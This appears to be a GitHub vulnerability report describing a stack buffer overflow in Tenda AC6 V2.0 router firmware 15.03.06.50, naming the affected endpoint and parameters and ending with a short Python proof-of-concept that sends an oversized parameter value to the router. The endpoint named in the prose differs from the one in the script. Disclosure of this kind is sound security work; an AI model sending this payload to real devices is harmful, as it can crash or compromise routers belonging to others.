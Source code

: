 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 V2.0 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/goform/saveParentControlInfo`. When `schedStartTime`/`schedEndTime` is specified with excessive data, the buffer overflow occurs during `strcpy`.

![alt text](image-1.png)
![alt text](image-2.png)
![alt text](image-3.png)
## poc
![alt text](image.png)
![alt text](image-4.png)

## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'schedWifiEnable':0, 'schedStartTime': payload, 'schedEndTime': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x100 * b'A' + b'DOIT'
send_payload("http://10.10.10.1/goform/openSchedWifi", payload)
```
